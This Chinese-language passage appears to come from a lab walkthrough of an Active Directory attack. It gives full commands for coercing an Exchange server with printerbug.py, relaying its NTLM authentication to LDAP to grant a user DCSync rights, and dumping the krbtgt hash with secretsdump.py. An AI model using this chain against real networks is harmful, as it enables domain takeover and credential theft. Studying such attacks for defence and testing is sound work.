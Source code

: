 接着安全研究员使用 printerbug.py 脚本执行如下命令，使用 xie\hack 用户连接Exchange 服务器，触发 Exchange 服务器的 Print Spooler Bug，该 bug 会强制触发目标 Exchange 服务器 10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。

```
python3 printerbug.py xie/hack:P@ss1234@10.211.55.5 10.211.55.2
```

如图所示，安全研究员使用打印机漏洞强制触发目标 Exchange 服务器10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。

![截图](73f1dfd4a24a0bd83110e0fa4185eeaa.png)

然后安全研究员就可以收到目标 Exchange 服务器发过来的 NTLM 认证流量了，再**将此 NTLM 认证流量绕过 NTLM 的 MIC 消息完整性校验后，通过修改LDAP 协商数据包中的相应标志位来使得协商不需要签名**。再**通过 LDAP 协议中继给域控，LDAP 中执行的高权限操作是赋予指定 hack 用户 DCSync 权限**。

如图所示，可以看到该脚本首先会遍历中继的机器用户的权限，发现目标Exchange 服务器的机器账号在域内拥有创建用户和修改域 ACL 的权限。因此该脚本会选择修改域的 ACL 这种方式来提权，因为它相比于创建高权限用户更为隐蔽。该脚本通过修改指定 hack 用户的 ACL，为其赋予 DCSync 权限。

![截图](0b95de4617af14471954725ac7b0976d.png)

修改完 hack 用户的 ACL 后，此时域普通用户 hack 已经被赋予了 Dcsync 权限，可以直接导出域内所有用户的哈希。使用 secretsdump.py 脚本执行如下命令导出指定域用户 krbtgt 的哈希，即可接管全域！

```
python3 secretsdump.py xie.com/hack:P@ss1234@10.211.55.4 -just-dc-user krbtgt
```

如图所示，导出 krbtgt 用户哈希。

![截图](f59ecf3279c3ef789a775a4a06025a8d.png)
